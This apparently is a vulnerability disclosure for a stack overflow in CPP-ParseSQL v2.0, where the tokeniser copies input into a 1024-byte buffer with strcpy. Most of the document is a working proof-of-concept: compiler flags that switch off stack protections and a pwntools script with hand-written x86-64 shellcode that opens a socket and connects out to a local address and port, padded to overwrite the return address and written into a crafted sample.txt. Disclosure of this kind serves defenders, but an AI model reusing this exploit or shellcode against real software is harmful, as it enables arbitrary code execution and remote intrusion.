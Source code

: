 # Stack Overflow in CPP-ParseSQL v2.0

## SUMMARY

Stack Overflow in CPP-ParseSQL v2.0

The stack overflow vulnerability is located in line 177 of the tokeniser.cpp file of the CPP-ParseSQL v2.0 program. Attackers can achieve attack effects such as arbitrary address execution, arbitrary code execution, and machine terminal acquisition by leaving carefully designed files for parsing.



## DETAIL

- source link: https://github.com/Icejin-a11y/CPP-ParseSQL/releases/tag/tag
- version: v2.0



The main function reads the sample.txt file, load SQL statements, then use `tokenise ` to tokenization

![alt text](assets/image-13.png)

in the `tokenise `,  it keep copy byte from file to buffer

![alt text](assets/image-14.png)

Then when it meet a `tokendel` byte run the  `gettoken` with buffer

![alt text](assets/image-15.png)

In `tokendel` the buffer(word) copied to word_upp[1024], result a Stack Overflow when the buffer over 1024 bytes

![alt text](assets/image-16.png)

## SHOW

before strcpy

![alt text](assets/image-17.png)

after strcpy

![alt text](assets/image-18.png)

## POC

build

```shell
g++ main.cpp -o main -z lazy -no-pie -fno-stack-protector -z execstack
```

```py
from pwn import *
from LibcSearcher import *
import sys

import pwnlib.shellcraft

context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h', '-p', '50', '-F' '#{pane_pid}', '-P']

sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
rc=lambda x:p.recv(x)
rl=lambda :p.recvline()
ru=lambda x:p.recvuntil(x)
ita=lambda :p.interactive()
slc=lambda :asm(shellcraft.sh())
uu64=lambda x:u64(x.ljust(8,b'\0'))
uu32=lambda x:u32(x.ljust(4,b'\0'))
getaddr=lambda :uu64(rc(6).ljust(8,b'\0'))
getbinsh=lambda :libc.search(b'/bin/sh').__next__()

def print_hex(bin_code):
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)
	
def gdba(x=''):
	if len(sys.argv) > 1:
		if sys.argv[1] == 'n':
			return
	if type(p)==pwnlib.tubes.remote.remote:
		return
	elif type(p)==pwnlib.tubes.process.process:
		# gdb.attach(p,x)
		gdb.attach(proc.pidof(p)[0], x)
		pause()
def getProcess():
	if len(sys.argv) > 1:
		if sys.argv[1] == 'r':
			return remote('','')
	return process('./main')

stack_addr = 0x7ffc8d4256a8
start = stack_addr - 0x7ffe211e07a8 + 0x7ffe211df260
shellcode=asm("""
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* open new socket */
        /* open new socket */
        /* call socket('AF_INET', SOCK_STREAM (1), 0) */
		
    xor rax, rax          /* rax = 0 */
    mov al, 0x1f          /* rax = 0x1f */
    add al, 0x8          /* rax = 0x27 */
    add al, 0x2          /* rax = 0x29 */
    xor rsi, rsi          /* esi = 0 */
			  mov rdi, rsi
		mov dil, 2
        mov sil, 1
        xor edx, edx /* rdx=0 代替cdq指令 */
        syscall
        /* Put socket into rbp */
        mov rbp, rax
        /* Create address structure on stack */
        /* push b"\x02\x00'\x0f\x7f\x00\x00\x01" */
        mov rax, 0x201010101010101
        push rax
        mov rax, 0x201010101010101 ^ 0x100007f0f270002
        xor [rsp], rax
        /* Connect the socket */
        /* call connect('rbp', 'rsp', 0x10) */
        
	xor rax, rax
        mov al, 0x23
        add al, 0x7
        mov rdi, rbp
	xor rdx, rdx
	    mov dl , 0x10
        mov rsi, rsp
        syscall
""")
print(shellcode)

payload = shellcode.ljust(0x428, b'h')+p64(start)

# payload = b'a'*0x20
# payload = payload.replace(b')', b'k')
content = payload+b"( from tbl_2 JOIN tbl_1;"


f = open('sample.txt', 'wb')
f.write(content)
f.close()
```

